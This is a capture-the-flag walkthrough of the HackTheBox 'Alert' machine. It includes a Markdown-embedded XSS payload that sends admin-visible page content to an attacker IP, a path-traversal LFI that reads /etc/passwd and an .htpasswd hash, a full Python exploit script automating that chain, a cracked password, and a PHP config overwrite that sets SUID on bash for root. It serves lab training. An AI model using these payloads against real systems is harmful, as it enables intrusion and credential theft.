




# Alert HackTheBox WalkThrough



We start the machine with a full-range TCP port scan.

```
nmap -sS -n -p- -Pn --min-rate 3000 10.129.95.162

Not shown: 65334 closed tcp ports (reset), 199 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Ports `22` and `80` are open. Let's try to detect what services and versions are running on these ports.

```
nmap -sVC -p 22,80 10.129.95.162 -oN services.nmap

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7e:46:2c:46:6e:e6:d1:eb:2d:9d:34:25:e6:36:14:a7 (RSA)
|   256 45:7b:20:95:ec:17:c5:b4:d8:86:50:81:e0:8c:e8:b8 (ECDSA)
|_  256 cb:92:ad:6b:fc:c8:8e:5e:9f:8c:a2:69:1b:6d:d0:f7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://alert.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

As usual, there is an `SSH` service on port `22` and an `HTTP` service on port `80`.

Let's scan the HTTP service to detect the technologies it uses.

```
whatweb 10.129.95.162

http://10.129.95.162 [301 Moved Permanently] Apache[2.4.41], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.129.95.162], RedirectLocation[http://alert.htb/], Title[301 Moved Permanently]
ERROR Opening: http://alert.htb/ - no address for alert.htb
```

The website tries to redirect us to `http://alert.htb/`, which fails because the hostname cannot be resolved. Let's include it in `/etc/hosts`.

```
echo '10.129.95.162 alert.htb' >> /etc/hosts
```

Now we can run `whatweb` again, and it should not produce any errors.

```
whatweb alert.htb

http://alert.htb [302 Found] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.129.95.162], RedirectLocation[index.php?page=alert], Title[Alert - Markdown Viewer]
http://alert.htb/index.php?page=alert [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.129.95.162], Title[Alert - Markdown Viewer]
```

Now that we've done some basic reconnaissance, let's enter the website.



It is a service for rendering `Markdown` files.

Let's perform `fuzzing` to discover exposed pages with the `.php` extension.

```
ffuf -u http://alert.htb/FUZZ.php -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -c -t 200 --ic

messages                [Status: 200, Size: 1, Words: 1, Lines: 2, Duration: 44ms]
index                   [Status: 302, Size: 660, Words: 123, Lines: 24, Duration: 43ms]
contact                 [Status: 200, Size: 24, Words: 3, Lines: 2, Duration: 43ms]
visualizer              [Status: 200, Size: 633, Words: 181, Lines: 26, Duration: 42ms]
```

Among these pages, the only one we didn't know about is `messages`. However, when we access it, we find that it is empty (at least for normal users).

Let's also enumerate subdomains.

```
ffuf -u http://alert.htb -H 'Host: FUZZ.alert.htb' -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -c -t 200 --fw 20

statistics              [Status: 401, Size: 467, Words: 42, Lines: 15, Duration: 42ms]
```

We discovered the subdomain statistics, but it appears to be password-protected.



Reviewing the main page, we notice that when rendering a `Markdown` file, there is a `Share` button.


If we could inject `JavaScript` code into a file, an `XSS` vulnerability could occur.

To test this, let's set up a listener with netcat on port `80` (`HTTP`) and send ourselves a request containing the contents of `messages.php` as seen by the administrator.

```
nc -lnvp 80
```

We upload a `file.md` with the following content:

```
<script>
(async () => {
const res = await fetch('http://alert.htb/messages.php')
const text = await res.text()
fetch('http://10.10.14.191/?res=' + encodeURIComponent(text))
})()
</script>
```

We copy the `Share` URL (without opening it) and send it to the website administrator via the `Contact Us` form.



After a while, we receive a request from IP `10.129.95.162` (the victim machine) with the parameter `res` containing an URL-encoded response.

```
connect to [10.10.14.191] from (UNKNOWN) [10.129.95.162] 60474
GET /?res=%3Ch1%3EMessages%3C%2Fh1%3E%3Cul%3E%3Cli%3E%3Ca%20href%3D%27messages.php%3Ffile%3D2024-03-10_15-48-34.txt%27%3E2024-03-10_15-48-34.txt%3C%2Fa%3E%3C%2Fli%3E%3C%2Ful%3E%0A HTTP/1.1
Host: 10.10.14.191
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/122.0.6261.111 Safari/537.36
Accept: */*
Origin: http://alert.htb
Referer: http://alert.htb/
Accept-Encoding: gzip, deflate
```

We decode the `res` parameter:

```
node

> const content = '%3Ch1%3EMessages%3C%2Fh1%3E%3Cul%3E%3Cli%3E%3Ca%20href%3D%27messages.php%3Ffile%3D2024-03-10_15-48-34.txt%27%3E2024-03-10_15-48-34.txt%3C%2Fa%3E%3C%2Fli%3E%3C%2Ful%3E%0A'
> const decoded = decodeURIComponent(content)
> console.log(decoded)
```

```html
<h1>Messages</h1>
<ul>
    <li>
        <a href='messages.php?file=2024-03-10_15-48-34.txt'>2024-03-10_15-48-34.txt</a>
    </li>
</ul>
```

There is a link to `messages.php` with a `file` parameter. We can test for path traversal on it.

We use the same payload as before, but now setting the `file` parameter to `../../../../../../etc/passwd`.

```
<script>
(async () => {
const res = await fetch('http://alert.htb/messages.php?file=../../../../../../etc/passwd')
const text = await res.text()
fetch('http://10.10.14.191/?res=' + encodeURIComponent(text))
})()
</script>
```

When we receive the response and decode it:

```
node

> const content = '%3Cpre%3Eroot%3Ax%3A0%3A0%3Aroot%3A%2Froot%3A%2Fbin%2Fbash%0Adaemon%3Ax%3A1%3A1%3Adaemon%3A%2Fusr%2Fsbin%3A%2Fusr%2Fsbin%2Fnologin%0Abin%3Ax%3A2%3A2%3Abin%3A%2Fbin%3A%2Fusr%2Fsbin%2Fnologin%0Asys%3Ax%3A3%3A3%3Asys%3A%2Fdev%3A%2Fusr%2Fsbin%2Fnologin%0Async%3Ax%3A4%3A65534%3Async%3A%2Fbin%3A%2Fbin%2Fsync%0Agames%3Ax%3A5%3A60%3Agames%3A%2Fusr%2Fgames%3A%2Fusr%2Fsbin%2Fnologin%0Aman%3Ax%3A6%3A12%3Aman%3A%2Fvar%2Fcache%2Fman%3A%2Fusr%2Fsbin%2Fnologin%0Alp%3Ax%3A7%3A7%3Alp%3A%2Fvar%2Fspool%2Flpd%3A%2Fusr%2Fsbin%2Fnologin%0Amail%3Ax%3A8%3A8%3Amail%3A%2Fvar%2Fmail%3A%2Fusr%2Fsbin%2Fnologin%0Anews%3Ax%3A9%3A9%3Anews%3A%2Fvar%2Fspool%2Fnews%3A%2Fusr%2Fsbin%2Fnologin%0Auucp%3Ax%3A10%3A10%3Auucp%3A%2Fvar%2Fspool%2Fuucp%3A%2Fusr%2Fsbin%2Fnologin%0Aproxy%3Ax%3A13%3A13%3Aproxy%3A%2Fbin%3A%2Fusr%2Fsbin%2Fnologin%0Awww-data%3Ax%3A33%3A33%3Awww-data%3A%2Fvar%2Fwww%3A%2Fusr%2Fsbin%2Fnologin%0Abackup%3Ax%3A34%3A34%3Abackup%3A%2Fvar%2Fbackups%3A%2Fusr%2Fsbin%2Fnologin%0Alist%3Ax%3A38%3A38%3AMailing%20List%20Manager%3A%2Fvar%2Flist%3A%2Fusr%2Fsbin%2Fnologin%0Airc%3Ax%3A39%3A39%3Aircd%3A%2Fvar%2Frun%2Fircd%3A%2Fusr%2Fsbin%2Fnologin%0Agnats%3Ax%3A41%3A41%3AGnats%20Bug-Reporting%20System%20(admin)%3A%2Fvar%2Flib%2Fgnats%3A%2Fusr%2Fsbin%2Fnologin%0Anobody%3Ax%3A65534%3A65534%3Anobody%3A%2Fnonexistent%3A%2Fusr%2Fsbin%2Fnologin%0Asystemd-network%3Ax%3A100%3A102%3Asystemd%20Network%20Management%2C%2C%2C%3A%2Frun%2Fsystemd%3A%2Fusr%2Fsbin%2Fnologin%0Asystemd-resolve%3Ax%3A101%3A103%3Asystemd%20Resolver%2C%2C%2C%3A%2Frun%2Fsystemd%3A%2Fusr%2Fsbin%2Fnologin%0Asystemd-timesync%3Ax%3A102%3A104%3Asystemd%20Time%20Synchronization%2C%2C%2C%3A%2Frun%2Fsystemd%3A%2Fusr%2Fsbin%2Fnologin%0Amessagebus%3Ax%3A103%3A106%3A%3A%2Fnonexistent%3A%2Fusr%2Fsbin%2Fnologin%0Asyslog%3Ax%3A104%3A110%3A%3A%2Fhome%2Fsyslog%3A%2Fusr%2Fsbin%2Fnologin%0A_apt%3Ax%3A105%3A65534%3A%3A%2Fnonexistent%3A%2Fusr%2Fsbin%2Fnologin%0Atss%3Ax%3A106%3A111%3ATPM%20software%20stack%2C%2C%2C%3A%2Fvar%2Flib%2Ftpm%3A%2Fbin%2Ffalse%0Auuidd%3Ax%3A107%3A112%3A%3A%2Frun%2Fuuidd%3A%2Fusr%2Fsbin%2Fnologin%0Atcpdump%3Ax%3A108%3A113%3A%3A%2Fnonexistent%3A%2Fusr%2Fsbin%2Fnologin%0Alandscape%3Ax%3A109%3A115%3A%3A%2Fvar%2Flib%2Flandscape%3A%2Fusr%2Fsbin%2Fnologin%0Apollinate%3Ax%3A110%3A1%3A%3A%2Fvar%2Fcache%2Fpollinate%3A%2Fbin%2Ffalse%0Afwupd-refresh%3Ax%3A111%3A116%3Afwupd-refresh%20user%2C%2C%2C%3A%2Frun%2Fsystemd%3A%2Fusr%2Fsbin%2Fnologin%0Ausbmux%3Ax%3A112%3A46%3Ausbmux%20daemon%2C%2C%2C%3A%2Fvar%2Flib%2Fusbmux%3A%2Fusr%2Fsbin%2Fnologin%0Asshd%3Ax%3A113%3A65534%3A%3A%2Frun%2Fsshd%3A%2Fusr%2Fsbin%2Fnologin%0Asystemd-coredump%3Ax%3A999%3A999%3Asystemd%20Core%20Dumper%3A%2F%3A%2Fusr%2Fsbin%2Fnologin%0Aalbert%3Ax%3A1000%3A1000%3Aalbert%3A%2Fhome%2Falbert%3A%2Fbin%2Fbash%0Alxd%3Ax%3A998%3A100%3A%3A%2Fvar%2Fsnap%2Flxd%2Fcommon%2Flxd%3A%2Fbin%2Ffalse%0Adavid%3Ax%3A1001%3A1002%3A%2C%2C%2C%3A%2Fhome%2Fdavid%3A%2Fbin%2Fbash%0A%3C%2Fpre%3E%0A'
> const decoded = decodeURIComponent(content)
> console.log(decoded)

<pre>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
fwupd-refresh:x:111:116:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
albert:x:1000:1000:albert:/home/albert:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
david:x:1001:1002:,,,:/home/david:/bin/bash
</pre>
```

We now have access to `/etc/passwd`, confirming that this parameter is vulnerable to `Local File Inclusion (LFI)`.

To access files more conveniently, we can create a simple Python script.

```python
#!/usr/bin/env python3

import socket
import requests
import sys
import re
import urllib
import threading
import time

HOST = "alert.htb"
LOCAL_IP = "10.10.14.191"
LOCAL_PORT = 12345

def listenHTTP():
    server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    server.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    server.bind(("0.0.0.0", LOCAL_PORT))
    server.listen(3)

    while True:
        client, _ = server.accept()

        request = client.recv(10000).decode()

        firstLine = request.split("\n")[0]

        if "GET" in firstLine and "?" in firstLine:
            parts = firstLine.split(" ")
            url = parts[1]

            params = urllib.parse.parse_qs(urllib.parse.urlparse(url).query)

            if "res" in params:
                res = params["res"][0]
                decoded = urllib.parse.unquote(res)

                content = decoded[5:-8]

                print(content)

                client.close()

def uploadMd(file):
    script = f"""
<script>
(async () => {{
const res = await fetch('http://{HOST}/messages.php?file=../../../../../../../..{file}')
const text = await res.text()
fetch('http://{LOCAL_IP}:{LOCAL_PORT}/?res=' + encodeURIComponent(text))
}})()
</script>
    """

    url = f"http://{HOST}/visualizer.php"
    files = {
        "file": (
            "file.md",
            script,
            "text/markdown"
        )
    }

    res = requests.post(url, files=files)

    reg = rf'http://{HOST}/visualizer.php\?link_share=.+\.md'
    match = re.search(reg, res.text)

    if match:
        return match.group()

def uploadShare(share):
    url = f"http://{HOST}/contact.php"
    data = {
        "email": "mail@mail.com",
        "message": share,
    }

    requests.post(url, data)

if __name__ == '__main__':
    server_thread = threading.Thread(target=listenHTTP, daemon=True)
    server_thread.start()

    if len(sys.argv) < 2:
        print(f'Usage: {sys.argv[0]} <absolute-path-of-desired-file>')
        sys.exit(1)

    share = uploadMd(sys.argv[1])

    if not share:
        raise ValueError('Not share link generated')

    uploadShare(share)

    time.sleep(3)
```

We grant execution permissions:

```
chmod +x lfi.py
```

Since the `statistics.alert.htb` host is password-protected, let's try to find its hash.

```
./lfi.py /etc/apache2/sites-enabled/000-default.conf
```

```
<VirtualHost *:80>
    ServerName statistics.alert.htb

    DocumentRoot /var/www/statistics.alert.htb

    <Directory /var/www/statistics.alert.htb>
        Options FollowSymLinks MultiViews
        AllowOverride All
    </Directory>

    <Directory /var/www/statistics.alert.htb>
        Options Indexes FollowSymLinks MultiViews
        AllowOverride All
        AuthType Basic
        AuthName "Restricted Area"
        AuthUserFile /var/www/statistics.alert.htb/.htpasswd
        Require valid-user
    </Directory>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>
```

From the output, we see that the password file is located at `/var/www/statistics.alert.htb/.htpasswd`.

```
./lfi.py /var/www/statistics.alert.htb/.htpasswd

albert:$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/
```

Now we attempt to crack the hash using `hashcat`.

```
hashcat -m 1600 hash rockyou.txt
```

After some time, the hash is cracked, revealing the plaintext password.

```
hashcat hash --show

$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/:manchesterunited
```

Let's try connecting via SSH as `albert` using the recovered password.

```
ssh albert@alert.htb
albert@alert.htb's password: manchesterunited
```

For privilege escalation, we download [pspy](https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64) to analyze running processes.

We serve the file using a simple HTTP server with `python`:

```
python3 -m http.server 8000
```

Then, from the victim machine, we download it using `wget`:

```
wget 10.10.14.191:8000/pspy64
```

And execute it:

```
./pspy64
```

Among all the information displayed, the most interesting finding is the execution of `/usr/bin/php -f /opt/website-monitor/monitor.php` as `root`.

```
2025/03/19 01:18:06 CMD: UID=0     PID=956    | /usr/bin/php -S 127.0.0.1:8080 -t /opt/website-monitor
2025/03/19 01:19:01 CMD: UID=0     PID=14686  | /usr/bin/php -f /opt/website-monitor/monitor.php 
```

We check if we have write permissions on this file or any of its dependencies.

```
ls -l /opt/website-monitor/

drwxrwxr-x 2 root management  4096 Oct 12 04:17 config
drwxrwxr-x 2 root root        4096 Oct 12 00:58 incidents
-rwxrwxr-x 1 root root        5323 Oct 12 01:00 index.php
-rwxrwxr-x 1 root root        1068 Oct 12 00:58 LICENSE
-rwxrwxr-x 1 root root        1452 Oct 12 01:00 monitor.php
drwxrwxrwx 2 root root        4096 Oct 12 01:07 monitors
-rwxrwxr-x 1 root root         104 Oct 12 01:07 monitors.json
-rwxrwxr-x 1 root root       40849 Oct 12 00:58 Parsedown.php
-rwxrwxr-x 1 root root        1657 Oct 12 00:58 README.md
-rwxrwxr-x 1 root root        1918 Oct 12 00:58 style.css
drwxrwxr-x 2 root root        4096 Oct 12 00:58 updates
```

Since the `management` group has write permissions in the config directory, we check if our current user is part of that group.

```
id

uid=1000(albert) gid=1000(albert) groups=1000(albert),1001(management)
```

We verify that `/opt/website-monitor/monitor.php` includes any files from `config`:

```
cat /opt/website-monitor/monitor.php | grep config

include('config/configuration.php');
```

We overwrite `config/configuration.php` with a payload to grant `SUID` permissions to `bash`.

This will be the new contents of the file.

```
<?php
    define('PATH', '/opt/website-monitor');
    system('chmod u+s /usr/bin/bash');
?>
```

We overwrite it:

```
echo -e "<?php\ndefine('PATH', '/opt/website-monitor');\nsystem('chmod u+s /usr/bin/bash');\n?>" > configuration.php
```

Now, we can escalate privileges:

```
bash -p
```

We navigate to the `/root` directory and retrieve the `root` flag:

```
cd /root
cat root.txt
```

After finishing the machine, don’t forget to remove the line from `/etc/hosts` corresponding to the machine to avoid accumulating lines with each machine you do.

If you found this useful, consider giving a star to the project. Thank you, and good luck with your future machines ❤️.